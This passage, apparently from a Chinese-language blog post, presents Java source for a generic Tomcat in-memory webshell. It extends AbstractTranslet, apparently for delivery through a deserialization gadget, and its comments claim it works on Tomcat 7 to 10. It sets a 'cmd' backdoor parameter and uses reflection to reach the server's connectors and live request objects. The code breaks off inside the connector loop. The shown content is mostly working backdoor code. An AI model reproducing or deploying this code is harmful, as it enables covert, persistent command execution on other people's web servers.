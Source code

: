 需要注意的是，以上调试都是在本地进行，很显然不同主机对应了不同的connectors；然后一个connectors下的global变量，一个主机也大概率也不会只有一条RequestInfo，所以需要进行两个遍历

```java
package org.example.tomcatmemshell.servlet;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.loader.WebappClassLoaderBase;

import java.lang.reflect.Field;

//1. getContextClassLoader()->resources->getContext()先获取StandardContext。然后StandardContext->context(ApplicationContext)->service(StandardService)可以获取到StandardService。
//2. 从StandardService->connectors->Connector的路径取出connector。connector内部有protocolHandler字段，存储着Http11NioProtocol
//3. 获取到了Http11NioProtocol，才能调用其父类AbstractHttp11Protocol的getHandler或者反射 去获取AbstractHttp11Protocol构造函数所创建的`AbstarctProtocol$ConnectionHandler`。以上都是因为ConnectionHandler是个内部类带来的麻烦事
//4. 获取到了ConnectionHandler，就可以反射获取global静态字段，global实际上是RequestGroupInfo，可以按照RequestGroupInfo->RequestInfo->Request的方式获取到Request
//通用tomcat 7 8 9 10.
public class GenericTomcatMemShell2 extends AbstractTranslet {

    static {
        try {
            //传递的参数，后门标识
            String pass = "cmd";

            //获取WebappClassLoaderBase
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            Field webappclassLoaderBaseField=Class.forName("org.apache.catalina.loader.WebappClassLoaderBase").getDeclaredField("resources");
            webappclassLoaderBaseField.setAccessible(true);
            WebResourceRoot resources=(WebResourceRoot) webappclassLoaderBaseField.get(webappClassLoaderBase);
            Context StandardContext =  resources.getContext();

            //获取ApplicationContext
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            contextField.setAccessible(true);
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(StandardContext);

            //获取StandardService
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            serviceField.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);

            //获取Connector
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();

            //找到指定的Connector
            for (int i = 0; i < connectors.length; i++) {
                if (connectors[i].getScheme().contains("http")) {
```